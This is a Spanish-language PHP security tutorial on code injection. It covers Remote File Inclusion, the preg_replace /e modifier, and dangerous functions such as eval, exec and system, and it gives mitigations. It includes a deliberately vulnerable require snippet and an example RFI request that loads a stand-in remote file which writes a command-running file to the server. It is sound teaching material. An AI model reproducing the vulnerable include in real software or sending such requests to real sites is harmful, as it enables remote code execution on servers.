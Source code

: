 **Indice de contenido**

1.  Introducción
2.  Mostrar el código al público
3.  Ataques RFI Remote File Inclusion
4.  Inyección por expresiones regulares
5.  Funciones vulnerables a Code Injection

### 1. Introducción

El _**Code Injection**_ es un tipo de ataque que permite al atacante **inyectar código fuente en la aplicación** de forma que es interpretado y ejecutado. Esto no incluye aquellos ataques en los que la víctima es un usuario de la aplicación, que son los [ataques CSRF](http://diego.com.es/ataques-csrf-cross-site-request-forgery-en-php).

El **código fuente** se puede insertar directamente desde un _**input**_, o la aplicación web puede ser manipulada para que lo cargue desde el **sistema de archivos local** o desde una **fuente externa** como una **URL**. Cuando la inyección se produce por la inclusión de un archivo externo se le denomina **Remote File Inclusion**, **RFI**, y su objetivo suele ser el de **inyectar código**.

Las principales causas por las que se pueden realizar este tipo de ataques son por un **fallo de validación de un input**, la inclusión de un **input no fiable** en cualquier contexto donde puede ser **evaluado como código PHP**, no asegurar correctamente los **repositorios del código fuente**, no tener precaución suficiente cuando se descargan **librerías externas**, o **configuraciones mal hechas del servidor** que permiten incluir archivos que no son PHP pero que se analizan como PHP en el servidor.

### 2. Mostrar el código al público

Normalmente las páginas que acaban en _**.php**_ serán **reenviadas a PHP desde Apache**, y por lo tanto el código será invisible para los usuarios. El hecho de que el código está escondido es una de las cosas que caracterizan a los **lenguajes del lado del servidor** como **PHP**. Pero el **módulo de PHP** o **Apache** pueden fallar por una **mala configuración** y el **código podría ser mostrado al público**. En ocasiones depende de cómo está diseñada la **estructura de directorios**. Lo ideal es que los archivos a los que accede el usuario estén separados de los del núcleo de la aplicación:
```
/aplicacion
  /controladores
  /modelos
  /vistas
/libreria
**/public_html**
  index.php
  /media
    /imagenes
    /js
    /css
```

### 3. Ataques RFI Remote File Inclusion

Algunos **ataques RFI** se producen por el uso de _**include**_ o _**require**_. Si se pasan datos sin sanitizar a estas funciones, un atacante puede **ejecutar código externo en el servidor**. Suponemos el siguiente código:

```
$pagina = isset($_GET['pagina']) ? $_GET['pagina'] : 'home';

require $pagina . '.php';
```

Es un **controlador** muy básico que requerirá el archivo proporcionado por el elemento _**$_GET['pagina']**_ (en caso de que esté definido).

Imaginemos que existe el archivo _http://ejemplo.com/veneno.php_, y nuestro script se encuentra en _http://misitio.com/index.php_. El atacante puede hacer este request: _http://misitio.com/index.php?pagina=http://ejemplo.com/veneno.php_. Este archivo será ejecutado cuando sea requerido y escribirá un nuevo archivo en el servidor. El archivo puede contener código que permita ejecutar comandos en la terminal, así como otro tipo de acciones.

Otra cosa que el atacante podría hacer es establecer _$pagina_ a _http://ejemplo.com/veneno.php?_ de forma que cualquier cosa que le siga al interrogante sea parte de la _**query string**_ y por tanto ignorada por el servidor en el que se está requiriendo el archivo. 

Para prevenir esto se pueden utilizar las **directivas del _php.ini_**:

*   _**allow_url_fopen**_, controla si los archivos externos deberían ser incluídos o no. Por defecto es **On**.
*   _**allow_url_include**_, controla si _include()_, _require()_, _include_once()_ y _require_once()_ deberían incluir archivos externos. Por defecto es **Off**.  Si _allow_url_fopen_ es off, esta será ignorada (off también).

Existen **alternativas para evitar ataques RFI desde Apache**, como [esta](http://www.phpfreaks.com/tutorial/preventing-remote-file-include-attacks-with-mod-rewrite). 

### 4. Inyección por expresiones regulares

La función **PCRE** _preg_replace_ en PHP permite al modificador /e (PREG_REPLACE_EVAL) hacer que lo que reemplace se interprete como código PHP después de la sustitución. Cualquier _**input**_ que se interprete con esta función y el modificador /e podrá ser por tanto un **código PHP que será evaluado y ejecutado**. Una solución para evitar esta posible inyección es utilizando la función _**preg_replace_callback()**_ en lugar de _**preg_replace()**_ cuando se usa el **modificador /e**.

### 5. Funciones vulnerables a Code Injection

La función _**eval()**_ permite **incluir strings como código PHP para ser evaluado**, es insegura y se ha de tratar de evitarla en lo máximo posible.

La función _**exec()**_ ejecuta comandos de programas externos en PHP. Por ejemplo:

```
echo exec('whoami');
```

La función _**system()**_ ejecuta un programa externo a PHP y muestra el _**output**_, devolviendo la última línea del output del comando en caso de tener éxito. Acepta un **argumento por referencia opcional** donde iría el comando devuelvo.

Las **comillas de ejecución**, u **operadores de ejecución** (_back ticks_), son estas : ``, y permiten que PHP ejecute el código que está en su interior como si fuera un comando de la terminal. Equivale a utilizar la función _**shell_exec()**_. Este operador se deshabilita cuando el modo seguro está activado o _shell_exec()_ está desactivado. No tienen significado especial dentro de las comillas dobles.

Para evitar que este tipo de funciones puedan manipularse y afectar de forma inesperada al sistema, conviene utilizar las funciones _**escapeshellarg()**_, que escapa un _**string**_ para que se pueda usar de forma más segura como comando, o _**escapeshellcmd()**_, que escapa **metacaracteres** de un _**string**_ por la misma razón. 

También conviene trabajar lo menos posible con los **directorios completos**, usando la función _**basename()**_, que devuelve el último componente de una ruta, por ejemplo: 

```
$directorio = "/home/carpeta/hola.php";
echo basename($directorio); // Devuelve: hola.php
```
